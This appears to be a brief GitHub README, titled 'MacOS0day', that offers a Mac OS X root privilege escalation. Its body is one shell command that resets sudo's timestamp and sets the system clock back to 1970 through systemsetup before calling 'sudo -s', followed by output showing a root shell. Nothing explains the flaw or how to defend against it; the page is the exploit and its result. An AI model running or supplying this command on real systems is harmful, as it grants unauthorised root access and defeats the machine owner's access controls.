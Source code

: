 MacOS0day
=========

Mac OS X - Get Root Priv 


thongngo$ sudo -k; systemsetup -setusingnetworktime Off -settimezone GMT -set date 01:01:1970 -settime 00:01; sudo -s

bash-3.x$ whoami
root
